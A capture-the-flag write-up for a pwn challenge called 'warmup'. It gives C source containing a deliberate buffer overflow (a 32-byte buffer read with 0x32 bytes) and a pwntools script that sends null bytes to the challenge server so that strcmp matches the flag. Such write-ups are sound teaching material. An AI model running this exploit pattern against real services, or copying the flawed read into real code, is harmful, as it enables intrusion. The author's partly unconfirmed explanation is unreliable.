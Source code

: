 # warmup
category: pwn | 316 points | 17 solves | author: main

## Description
Just a warmup. `nc challs.sieberrsec.tech 3476`

```c
#include <stdio.h>
int main() {
    char input[32];
    char flag[32];
    // read flag file
    FILE *f = fopen("flag", "r");
    fgets(flag, 32, f);
    fclose(f);
    // read the user's guess
    fgets(input, 0x32, stdin);
    // if user's guess matches the flag
    if (!strcmp(flag,input)) {
        puts("Predicted!");
        system("cat flag");
    } else puts("Your flag was wrong :(");
}
```

N.B. please do not try to bruteforce the flag. Attempts at doing so will be taken as an attack on server infrastructure, and will leave you liable for disqualification.

## Solution
This is a chall I didn't originally manage to get. 

the second (free) hint is a link to <https://en.wikipedia.org/wiki/Null-terminated_string>.

> A common bug was to not allocate the additional space for the NUL, so it was written over adjacent memory

The length of the `input` buffer is 32 bytes, but the program reads `0x32` or 50 bytes. 

the program also uses `strcmp()`. 
> strcmp() checks for the occurrence of NULL character in string, so that it will termination the function. ([source](https://www.quora.com/Does-STRCMP-check-for-NULL))

a code like this would work 
```python
from pwn import *

context.log_level="debug"

p = remote("challs.sieberrsec.tech", 3476)

#a null byte is b"\x00"
p.sendline(b"\x00"*33)

p.interactive()
```
as long as you send between 33-48 bytes. any shorter will not terminate strcmp(?) and any further would overwrite too much. 

- am currently confirming why the entire input needs to be NULL bytes 
- am currently confirming why the input needs to be longer than 32 

warmup chall with 17 solves very haha <br>
It's kinda stupid how I spent 1-2h when the comp first started trying to figure this out when my little mistake was sending b"0x0a" instead of a proper null byte
